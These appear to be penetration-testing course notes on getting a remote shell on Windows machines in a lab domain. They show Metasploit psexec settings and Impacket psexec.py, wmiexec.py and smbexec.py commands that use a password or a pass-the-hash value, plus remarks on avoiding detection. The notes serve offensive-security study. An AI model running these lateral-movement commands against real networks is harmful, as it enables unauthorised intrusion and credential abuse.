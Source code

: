 ### Ways to Gain Shell Access

Via Metasploit - with a password  
&ensp;	`use exploit/windows/smb/psexec`  
![pic6](Images/pic6.png)  
&ensp;&ensp;			Here, you use SMBDomain, SMBPass, and SMBUser in order to get a shell  
Via Metasploit - with a hash  
![pic7](Images/pic7.png)  
&ensp;&ensp;			Here, you can use just SMBUser and for SMBPass, use the hash gathered  
&ensp;	Metasploit is very noisy.  It's very likely this gets picked up in a live environment  

Through psexec - with a password  
&ensp;	`psexec.py marvel.local/fcastle:'Password1'@10.0.0.20`  
&ensp;&ensp;		If you leave the password out of this part you will be prompted for password when you run the command.  

Through psexec - with a hash  
&ensp;	`psexec.py administartor@10.0.0.25 -hashes LM:NT`  
&ensp;&ensp;		The `-hashes LM:NT` portion will have the hash itself, make sure to get both parts  

If psexec is being blocked or is not working, you have a couple other options  
&ensp;	`wmiexec.py` and `smbexec.py` will work in the same fashion with the same syntax as `psexec.py`  
	